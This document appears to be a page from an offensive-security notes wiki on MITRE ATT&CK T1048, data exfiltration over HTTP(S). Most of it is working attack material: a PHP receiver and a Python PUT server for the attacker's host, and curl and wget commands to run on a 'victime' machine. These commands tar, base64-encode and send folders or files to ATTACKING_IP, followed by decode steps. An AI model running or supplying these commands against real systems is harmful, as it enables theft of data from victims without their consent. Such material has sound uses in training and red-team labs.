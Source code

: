 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - Technique T1048
---
```


# Over HTTP(s)

## Theory

Exfiltration Over Alternative Protocol can be done using various common operating system utilities such as Net/SMB or FTP. On macOS and Linux curl may be used to invoke protocols such as HTTP/S

{% hint style="danger" %}
We can also use [HTTP(S) Tunneling](../pivoting/http-tunneling.md) as a good [exfiltration](./) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="POST" %}
We will host a simple PHP server in order to retrieve encoded POST data.

First write the following code in your `index.php` file

```php
<?php
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
}
?>
```

Second, start the PHP web-server in the same directory

```bash
# Start server on port 80
v4resk㉿kali$ php -S 0.0.0.0:80
```

On the victim computer, you can now send data through POST request. It will be saved at `/tmp/http.bs64`

```bash
# Linux
# Compress folder, base64, and send
user@victime$ curl --data "file=$(tar zcf - folderToExfiltrate | base64)" http://ATTACKING_IP/
```

On attacking machine, we can decode now decode it:

```bash
# Decode compressed folders
v4resk㉿kali$ sed -i 's/ /+/g' /tmp/http.bs64
v4resk㉿kali$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
```
{% endtab %}

{% tab title="PUT" %}
Using the following code, we will host a simple python server in order to retrieve PUT data.&#x20;

{% code title="http-put-server.py" %}
```python
#!/usr/bin/env python
import os
try:
    import http.server as server
except ImportError:
    # Handle Python 2.x
    import SimpleHTTPServer as server

class HTTPRequestHandler(server.SimpleHTTPRequestHandler):
    """Extend SimpleHTTPRequestHandler to handle PUT requests"""
    def do_PUT(self):
        """Save a file following a HTTP PUT request"""
        filename = os.path.basename(self.path)

        # Don't overwrite files
        if os.path.exists(filename):
            self.send_response(409, 'Conflict')
            self.end_headers()
            reply_body = '"%s" already exists\n' % filename
            self.wfile.write(reply_body.encode('utf-8'))
            return

        file_length = int(self.headers['Content-Length'])
        with open(filename, 'wb') as output_file:
            output_file.write(self.rfile.read(file_length))
        self.send_response(201, 'Created')
        self.end_headers()
        reply_body = 'Saved "%s"\n' % filename
        self.wfile.write(reply_body.encode('utf-8'))

if __name__ == '__main__':
    server.test(HandlerClass=HTTPRequestHandler)
```
{% endcode %}

On attacking host, start the server.

```bash
v4resk㉿kali$ python http-put-server.py
```

Then we can exfiltrate data from the victime host using `curl` or `wget`.

```bash
user@victime$ curl -X PUT --upload-file somefile.txt http://<ATTACKING_IP>:8000
user@victime$ wget -O- --method=PUT --body-file=somefile.txt http://<ATTACKING_IP>:8000/somefile.txt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
